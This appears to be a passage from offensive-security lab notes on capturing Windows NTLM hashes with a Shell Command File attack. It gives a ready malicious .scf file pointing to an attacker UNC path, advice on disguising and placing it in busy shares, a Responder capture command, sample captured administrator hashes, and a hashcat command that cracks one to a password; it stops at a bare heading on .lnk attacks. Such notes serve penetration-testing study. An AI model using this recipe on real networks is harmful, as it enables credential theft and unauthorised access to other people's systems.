 ## 📁 SCF File Hash Capture

### Shell Command File (SCF) Attack
```cmd
# SCF file purpose:
- Used by Windows Explorer for navigation
- Can be manipulated to point to UNC paths
- Triggers SMB authentication when folder is accessed
```

### Malicious SCF Creation
```ini
# Create @Inventory.scf (@ for top of directory listing):
[Shell]
Command=2
IconFile=\\10.10.14.3\share\legit.ico
[Taskbar]
Command=ToggleDesktop

# File placement strategy:
- Use @ prefix for top positioning
- Name similar to existing files
- Place in heavily accessed shares
```

### Responder Hash Capture
```bash
# Start Responder for NTLM capture:
sudo responder -wrf -v -I tun0

# Example captured hash:
[SMB] NTLMv2-SSP Client   : 10.129.43.30
[SMB] NTLMv2-SSP Username : WINLPE-SRV01\Administrator  
[SMB] NTLMv2-SSP Hash     : Administrator::WINLPE-SRV01:815c504e7b06ebda:afb6d3b195be4454b26959e754cf7137:01010...

# Wait 2-5 minutes for user to browse the share
```

### Hash Cracking
```bash
# Crack NTLMv2 hash with Hashcat:
hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt

# Example result:
ADMINISTRATOR::WINLPE-SRV01:815c504e7b06ebda:...:Welcome1

# Mode 5600 = NetNTLMv2
```

## 🔗 Malicious .lnk File Attacks
